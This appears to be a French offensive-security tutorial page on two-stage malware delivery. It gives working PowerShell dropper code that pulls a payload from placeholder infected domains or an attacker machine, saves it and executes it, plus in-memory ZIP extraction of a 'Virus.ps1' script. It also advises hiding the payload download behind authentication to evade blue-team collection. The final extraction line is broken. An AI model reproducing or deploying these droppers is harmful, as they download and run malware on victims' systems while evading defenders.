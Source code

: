 
La plupart des malwares ne sont pas distribué en un seul fichier et fonctionne en 2 étages :

## __Dropper___

Afin **télécharger** et d'**éxecuter** le malware **en mémoire**, on va faire éxecuter un **dropper** qui va faire appel à un domaine infecté pour télécharger notre payload.

Notez qu'il est conseillé de mettre une authentification web au téléchargement dans le but d'éviter une collecte par des blueTeamers qui aurai vu passer le flux sans avoir accès au code du dropper.

### Exemple 1

Avec powershell ce code ressemblerai à cela :

```powershell
$wvh = new-object net.webclient;
$nsh='http://<InfectedDomain1>/trkldl@http://<InfectedDomain2>/adCa0ad@http://<InfectedDomain3>/bl4bl4c4r'.split("@");
$onj = '453';
$dxo=$env:temp+'\'+$onj+'.exe';
foreach($wzi in $nsh){
	try{
		$wvh.downloadfile($wzi, $dxo);
		if((get-item $dxo).length -ge 80000){
			invoke-item $dxo;
			break;
		}	
	}catch{}
}
```

Pour résumer ce payload va :
- **Creer un objet pour telecharger**
- **Faire une liste des liens où trouver le malware**
- **Télécharger** puis **executer** le premier fichier qui aura une taille > 80000

### Exemple 2

Windows 10 et + :

```powershell
Invoke-WebRequest -Uri 'http://<MACHINE_IP>:8000/Virus.zip' -outfile "virus.zip";
```

Windows 7 et - :

```powershell
# Creation d'un nouveau client web
$webClient = [System.Net.WebClient];

# Telechargement des donnes dans une variable
$zip = $webClient.DownloadData('http://<MachineIP>:8000/Virus.zip');
```


## __Extraction__

Une fois l'étape précédente effectué, le ZIP se trouve en mémoire dans la variable $zip. On doit donc les extraire en restant en mémoire.

```powershell
# Chargement de la bibliothèque System.IO.Compression
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression') | Out-Null;

# Ouverture du fichier 'Virus.ps1' dans l'objet zip en mémoire
$entry = (New-Object System.IO.Compression.ZipArchive(New-Object System.IO.MemoryStream (, $zip))).GetEntry('Virus.ps1');

# Décompression du fichier
$b = [byte[]]::new($entry.Length)
$entry.Open().read($)
```